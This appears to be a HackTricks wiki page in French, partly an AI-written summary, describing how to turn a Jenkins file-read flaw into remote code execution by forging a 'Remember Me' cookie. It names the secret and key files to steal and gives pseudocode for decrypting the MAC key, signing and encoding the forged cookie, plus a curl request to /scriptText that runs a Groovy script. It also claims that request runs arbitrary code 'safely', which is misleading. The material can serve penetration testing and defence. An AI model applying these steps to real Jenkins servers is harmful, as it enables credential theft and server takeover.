 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie de l'article où l'artisanat d'un cookie arbitraire est abusé pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'ai le temps de créer un résumé par moi-même :

### Prérequis à l'attaque

* **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
* **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
* **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel à partir de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération des informations utilisateur**

* Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
* **Nom d'utilisateur**
* **Graine utilisateur**
* **Horodatage**
* **Hash du mot de passe**

**Extraction de la clé secrète**

* Extraire les clés cryptographiques utilisées pour signer le cookie :
* **Clé secrète :** `$JENKINS_HOME/secret.key`
* **Clé maître :** `$JENKINS_HOME/secrets/master.key`
* **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forgement de cookie

**Préparation du jeton**

*   **Calculer le temps d'expiration du jeton :**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ajoute une heure au temps actuel
```
{% endcode %}
*   **Concaténer les données pour le jeton :**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Déchiffrement de la clé MAC**

*   **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

*   **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey)  // Calculer HMAC en utilisant le jeton et la clé MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

*   **Générer le cookie final :**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Encoder en base64 les données du cookie
```
{% endcode %}

#### Étape 3 : Exécution de code

**Authentification de session**

* **Récupérer les jetons CSRF et de session :**
* Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
* Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

*   **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
